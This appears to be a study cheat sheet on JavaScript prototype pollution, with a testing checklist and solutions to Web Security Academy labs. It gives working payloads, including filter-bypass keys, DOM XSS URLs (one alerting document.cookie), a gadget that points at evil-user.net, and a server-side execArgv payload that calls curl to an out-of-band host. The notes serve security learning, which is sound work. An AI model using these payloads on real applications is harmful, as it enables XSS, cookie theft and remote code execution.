





# JS Prototype Pollution

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

## Prototype Pollution Sources

- The URL via query or fragment
- JSON-based input
- Web messages

### Via the URL

```
test.com/?__proto__[foo]=bar
```

### Via JSON

```
{
	"__proto__": {
		"evilProperty": "payload"
	}
}
```

## Prototype Pollution Sources

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on DOM XSS.

Largely trial and error

## Prototype Pollution Gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

- Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
    
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

### Examples

```
vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

```
vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

## Testing for client-side prototype pollution sources

- [ ] Try to inject an arbitrary property via the query string

```
target.com/?__proto__[foo]=bar
```

- [ ] Check in the console if the the prototype has been polluted

```
Object.prototype.foo
```

- [ ] If that doesn't work, try a different method

```
target.com/?__proto__.foo=bar
```

- [ ] Try sending in JSON

```
"__proto__":{
	"foo":"bar"
}
```

### Alternatives

- [ ] Try using the constructor

```
/?constructor.prototype.foo=bar
```

- [ ] Check for flawed key sanitization

```
/?__pro__proto__to__.foo=bar
/?__pro__proto__to__[foo]=bar 
/?__pro__proto__to__.foo=bar 
/?constconstructorructor[protoprototypetype][foo]=bar 
/?constconstructorructor.protoprototypetype.foo=bar
```

## Server-side prototype pollution

- [ ] Try to override the default error status code
- [ ] Try JSON spaces override
- [ ] Try a charset override
- [ ] Check for OOB interactions

```
"__proto__":{
	"status":599
}
```

```
"__proto__": { "shell":"node", "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com" }
```

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://1w2bdz4e6oa00ytizquj0kwiyekgu7jl2.oast.site')"
    ]
}
```
## Labs

### DOM XSS via client-side prototype pollution



```
0a2c00e903b91645815ec10100cd001c.web-security-academy.net/?__proto__[transport_url]=data:,alert(1);//
```

### DOM XSS via an alternative prototype pollution vector



```
0a0c00d404f574ab83fae7a3002500bd.web-security-academy.net/?__proto__.sequence=alert(1)-
```

### Placeholder



```
0a39008e04e67439842b054b00190057.web-security-academy.net/?__pro__proto__to__[transport_url]=data:,alert(1);//
```

### Client-side prototype pollution in third-party libraries

```
<script>
    location="https://0a6d00bc03d6c8ff82742a6100fd005d.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

### Client-side prototype pollution via browser APIs



```
0ad3005503235e1182dfca4b00bc000b.web-security-academy.net/?__proto__[value]=data:,alert(1)
```

### Bypassing flawed input filters for server-side prototype pollution

Use the constructor instead of `__proto__`.



